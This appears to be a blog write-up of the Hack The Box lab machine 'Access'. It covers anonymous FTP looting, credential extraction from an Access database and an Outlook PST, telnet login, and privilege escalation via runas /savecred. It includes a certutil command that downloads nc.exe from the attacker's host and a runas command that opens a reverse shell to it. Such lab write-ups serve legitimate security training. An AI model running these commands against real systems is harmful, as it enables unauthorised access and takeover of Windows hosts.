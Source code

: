 ```yaml
---
layout: post
title: Hack The Box - Access
categories: hack-the-box
tags: [windows, ftp]
description: My write-up for Access from Hack The Box.
image: /hackthebox/access/0.png
---
```


<hr>
## Quick Summary 
<br> Hey guys today Access retired and this is my write-up. I don't have too much to say about this box , It was a nice easy windows box and a good example of using `runas` in windows , Which is like `sudo` in linux and `doas` in openbsd (we used `doas` in [Ypuffy](/hack-the-box/ypuffy)). It's a windows box and its ip is 10.10.10.98 , I added it to `/etc/hosts` as `access.htb`
![](/images/hackthebox/access/0.png)
<hr>
## Nmap
<br> As always we will start with nmap to scan for open ports and services :
`nmap -sV -sT -sC access.htb`
![](/images/hackthebox/access/1.png)
<br> Nmap tells us that there's ftp running on port 21 , telnet on port 23 and http on port 80. It also tells us that we can login anonymously to ftp. Let's look at http first.
<br>
<hr>
## HTTP Enumeration 
<br> We get this page titled as "MegaCorp" and it only has this image :
![](/images/hackthebox/access/2.png)
<br> Sub directories enumeration with `gobuster` and `common.txt` (`/usr/share/wordlists/dirb/common.txt` in kali) only gave us 2 pages , `/aspnet_client` and `/index.html` 
![](/images/hackthebox/access/3.png)
<br> `/aspnet_client` gave us `403` Forbidden :
![](/images/hackthebox/access/4.png)
<br> And `/index.html` is of course the main page we saw earlier :
![](/images/hackthebox/access/5.png)
<br> So now we know that http has nothing , Next thing to check is ftp
<br>
<hr>
## FTP Enumeration
<br> Nmap told us earlier that anonymous login on ftp was allowed , After we login we find 2 directories `Backups` and `Engineer`
![](/images/hackthebox/access/6.png)
<br> In `Backups` there is only one file called `backup.mdb` , we will type `binary` to set the transfer mode to binary , so we won't get a corrupted file. Then `get backup.mdb` to download it :
![](/images/hackthebox/access/7.png)
<br> And in `Engineer` there's a file called `Access Control.zip` :
![](/images/hackthebox/access/8.png)
<hr>
## Extracting credentials from backup.mdb and getting User
<br> `backup.mdb` is a Microsoft Access Database , we can check using `file` :
![](/images/hackthebox/access/9.png)
<br> We need mdbtools to deal with this database , it can be installed with `apt`
`apt-get install mdbtools`
<br> We will use `mdb-tables` to get the table names : 
![](/images/hackthebox/access/10.png)
<br> There's an interesting table named `auth_user` , We will use `mdb-export` to get the contents of that table :
`mdb-export backup.mdb auth_user`
![](/images/hackthebox/access/11.png)
<br> And it gave us some credentials : 
`admin : admin`
<br>
<br>
`engineer : access4u@security`
<br>
<br>
`backup_admin : admin`
<br> By looking at the other `zip` file we will find a file called `Access Control.pst` and it's a password protected file.
![](/images/hackthebox/access/12.png)
<br> We already have 2 passwords : `admin` and `access4u@security`. `access4u@security` is the right password.
![](/images/hackthebox/access/13.png)
<br> `Access Control.pst` is a Microsoft Outlook email folder : 
![](/images/hackthebox/access/14.png)
<br> We can use a tool called `readpst` to be able to read the file :
`readpst Access\ Control.pst`
![](/images/hackthebox/access/15.png)
<br> It will create another file called `Access Control.mbox` , Let's `cat` that file :
![](/images/hackthebox/access/16.png)
<br> The very first thing we see is this email which has credentials for an account called `security` , password : `4CcessC0ntr0ller`
<br> Let's `telnet` into the box with those credentials : 
`telnet access.htb`
![](/images/hackthebox/access/17.png)
<br> And we owned user !
<br>
<hr>
## runas and Privilege Escalation
<br> As always we will start enumerating the filesystem , There are only 3 users on the box `Administrator` , `Public` and `security`.
![](/images/hackthebox/access/18.png)
<br> We are in as `security` and we can't go into Administrator's directory so let's check Public.
<br> In the Desktop of `Public` there's a `lnk` called `ZKAccess3.5 Security System`.
![](/images/hackthebox/access/19.png)
<br> Let's `type` it and see what's inside it :
![](/images/hackthebox/access/20.png)
<br> Of course not the best output , because it's a `lnk` file not a `txt` file , but we can read some stuff , and we notice that there's a `runas` command being excuted as administrator. `runas` allows us to run commands as another user and the option `/savecred` allows us to use the command without asking for password. Looking into Public's desktop is not necessary to know that, we can check by executing `net user administrator`
![](/images/hackthebox/access/21.png)
<br> `Password required` is set to `No` , If this was set to `Yes` we wouldn't be able to use `runas` as administrator without knowing the password , However that `lnk` file on Public's desktop was a nice hint.
<br> Now we can run a simple HTTP server on our box with python and host `nc.exe` : `python -m SimpleHTTPServer 80` `80` is the port number and it can be anything 
<br> You can get `nc.exe` from github [here](https://github.com/diegocr/netcat/blob/master/nc.exe) , I also remember that I included another link in [SecNotes write-up](/hack-the-box/secnotes)
<br> Then we will download it on the box :
`certutil -urlcache -split -f http://10.10.xx.xx/nc.exe nc.exe`
![](/images/hackthebox/access/22.png)
<br> After that we will set up our nc listener `nc -lvnp 1337` `1337` is the port number and it can be anything.
<br> Finally we will use `runas` to get a reverse shell :
`runas /user:Administrator /savecred "nc.exe -c cmd.exe 10.10.xx.xx 1337"`
![](/images/hackthebox/access/23.png)
<br> Let's check our listener :
![](/images/hackthebox/access/24.png)
<br> We have a shell.
![](/images/hackthebox/access/25.png)
<br> And we owned root !
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Previous Hack The Box write-up : [Hack The Box - Zipper](/hack-the-box/zipper/)
<br> Next Hack The Box write-up : [Hack The Box - Ethereal](/hack-the-box/ethereal/)
<hr>
